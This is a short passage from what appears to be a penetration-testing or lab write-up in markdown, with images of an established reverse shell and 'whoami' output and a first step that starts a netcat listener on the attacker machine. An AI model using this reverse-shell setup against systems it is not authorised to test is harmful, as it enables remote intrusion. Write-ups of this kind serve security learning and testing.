 ![Reverse shell established — whoami output](images/reverse_shell_whoami.png)

### Preparing a reverse shell
1. Start a listener on attacker machine:
```bash
  nc -lnvp 53666
```
![Netcat listener awaiting connection](images/revshell_listener.png)
